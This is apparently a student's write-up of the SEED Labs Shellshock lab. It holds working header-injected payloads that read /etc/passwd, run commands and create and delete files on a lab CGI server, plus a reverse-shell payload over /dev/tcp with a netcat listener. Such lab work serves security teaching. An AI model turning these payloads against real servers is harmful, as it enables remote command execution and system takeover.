

## [Shellshock Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/)

## Environment Setup

### DNS Setting

- Verified the `/etc/hosts` file was containing the required line.


### Container Setup and Commands

- Downloaded the `Labsetup.zip` and followed the instructions.


### To fix the Internet Issues, `Promiscuous Mode` need to be set to `Deny`


### Web Server and CGI


## Lab Tasks

### Task 1: Experimenting with Bash Function

```sh
export A='() { echo "Hello World";}; echo vulnerable;'; bash_shellshock -c "echo TEST"
```

```sh
export A='() { echo "Hello World";}; echo vulnerable;'; bash -c "echo TEST"
```


### Task 2: Passing Data to Bash via Environment Variable

##### Task 2.A: Using browser


We can observe that the below headers are set by the browser when the GET request is sent.

```
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Keep-Alive: timeout=5, max=100
Vary: Accept-Encoding
Content-Encoding: gzip
Connection: Keep-Alive
```

The below environment variables are affected based on the GET request sent by the browser.

```
HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_CONNECTION=keep-alive
HTTP_UPGRADE_INSECURE_REQUESTS=1
HTTP_CACHE_CONTROL=max-age=0
```

##### Task 2.A: Using curl


```
seed@VM:~$  curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/getenv.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 05:34:31 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=48050
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

```
seed@VM:~$ curl -A "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/getenv.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: my data
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 05:34:43 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=my data
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=48052
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

```
seed@VM:~$ curl -e "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/getenv.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: curl/7.68.0
> Accept: */*
> Referer: my data
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 05:38:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_REFERER=my data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=48056
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

```
seed@VM:~$ curl -H "AAAAAA: BBBBBB" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/getenv.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: curl/7.68.0
> Accept: */*
> AAAAAA: BBBBBB
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 05:38:30 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_AAAAAA=BBBBBB
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=48058
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

When the `-A` option is used, `HTTP_USER_AGENT` variable is updated.

When the `-e` option is used, `HTTP_REFERER` variable is updated.

When the `-H key:value` option is used, a new variable `HTTP_key` is created with value `value`.

###  Task 3: Launching the Shellshock Attack

##### Task 3.A: Get the server to send back the content of the `/etc/passwd` file.

```sh
seed@VM:~$ curl -A "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/cat /etc/passwd" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/vul.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: () { hello;}; echo "Content-Type: text/plain;"; echo; echo; /bin/cat /etc/passwd
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 06:03:30 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain;
< 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host www.seedlab-shellshock.com left intact
```

##### Task 3.B: Get the server to tell you its process’ user ID. You can use the /bin/id command to print out the ID information.

```
seed@VM:~$ curl -H "VARTEST: () { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/id" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/vul.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: curl/7.68.0
> Accept: */*
> VARTEST: () { echo hello;}; echo "Content-Type: text/plain;"; echo; echo; /bin/id
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 06:05:26 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 55
< Content-Type: text/plain;
< 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host www.seedlab-shellshock.com left intact
```

##### Task 3.C: Get the server to create a file inside the /tmp folder. You need to get into the container to see whether the file is created or not, or use another Shellshock attack to list the /tmp folder.

```
seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/touch /tmp/Task-3C.ATTACK" www.seedlab-shellshock.com/cgi-bin/vul.cgi

seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/ls -l /tmp/" www.seedlab-shellshock.com/cgi-bin/vul.cgi
-rw-r--r-- 1 www-data www-data 0 Oct  7 12:52 Task-3C.ATTACK
```



##### Task 3.D: Get the server to delete the file that you just created inside the `/tmp` folder.

```
seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/rm /tmp/Task-3C.ATTACK" www.seedlab-shellshock.com/cgi-bin/vul.cgi

seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/ls -l /tmp/" www.seedlab-shellshock.com/cgi-bin/vul.cgi

total 0
```


Questions. Please answer the following questions:

##### Question 1: Will you be able to steal the content of the shadow file /etc/shadow from the server? Why or why not? The information obtained in Task 3.B should give you a clue.

Since the web server is running with user `www-data` but the `/etc/shadow` can only be **read** by the ROOT user, we will not be able to view the content of the `/etc/shadow` file.

##### Question 2: HTTP GET requests typically attach data in the URL, after the ? mark. Can we use this method to launch the Shellshock attack? Please conduct your experiment and derive your conclusions based on your experiment results.

We try to make request to the URL using the command `curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/cat /etc/passwd"`, but the CGI HTTP Server says 400 Bad Request


We understand that the `QUERY_STRING` parameters need to be __urlencoded__, Hence we modify the command as `curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?%28%29%20%7B%20echo%20hello%3B%7D%3B%20echo%20%5C%22Content-Type%3A%20text%2Fplain%3B%5C%22%3B%20echo%3B%20echo%3B%20%2Fbin%2Fcat%20%2Fetc%2Fpasswd"`.


But, since the Shellshock Attack requires the `() {`, that is, there should be **SPACE** character, but in HTTP GET request, we cannot send space characters without urlencoding it, hence, Shellshock attack cannot work using HTTP GET query parameters.

### Task 4: Getting a Reverse Shell via Shellshock Attack

1) used `ifconfig` command to know the IP address of the attacker machine.

2) started the netcat process to listen to tcp communications on PORT 9090

```sh
nc -nv -l 9090
```

3) ran the command in a new terminal.

```sh
curl -H "VARTEST: () { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

4) The first terminal got access to the BASH shell, where commands could be typed and output was visible, as shown in below screenshot.


### Task 5: Using the Patched Bash


Stopped the container, Edited the `getenv.cgi` and `vul.cgi` files, rebuilt and restarted the container.

Executed the same commands as done in Task 3.


Observed that the with the updated version of BASH not able to exploit the vulnerability.
